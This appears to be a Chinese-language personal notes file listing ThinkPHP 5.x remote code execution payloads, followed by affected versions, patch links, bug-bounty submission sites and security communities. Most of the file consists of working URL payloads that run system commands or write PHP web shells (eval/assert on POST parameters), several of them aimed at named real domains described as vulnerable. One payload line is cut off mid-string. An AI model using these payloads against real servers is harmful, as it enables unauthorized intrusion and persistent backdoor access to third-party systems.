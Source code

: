 ### 唐人街发现漏洞
    域名/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[fuck]);?>'
    
    api.91tangrenjie.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=fff.php&vars[1][1]=<?php print_R(scandir('/www/wwwroot/api.91tangrenjie.com/application/admin'))?>
    
    api.91tangrenjie.com/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shix1.php&vars[1][1]=<?php assert($_POST['fuck'])?>

### 米多发现
    api.6d2g.cn/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=tt.php&vars[1][]=<?php @eval($_POST[111]);?>
    
    ?s=index/\think\Request/input&filter=phpinfo&data=1
    ?s=index/\think\Request/input&filter=system&data=id
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=
    ?s=index/\think\view\driver\Php/display&content=
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0



### tp受影响版本 5.x < 5.1.31, <= 5.0.23

    Thinkphp v5.0.x补丁地址: https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f
    
    Thinkphp v5.1.x补丁地址: https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815

### 漏洞提交 

- 宜信安全应急响应中心 
- https://security.creditease.cn/  提交漏洞 
- https://www.anquanke.com/src
- https://butian.360.cn

### 安全类社区 

- 先知社区 seebug
- 安全客 freebuf
- tuisec 
- i春秋社区  
- 大佬的 twitter + blog
- 
- CTF平台  
- capture the flag  抢夺旗帜  获取旗帜


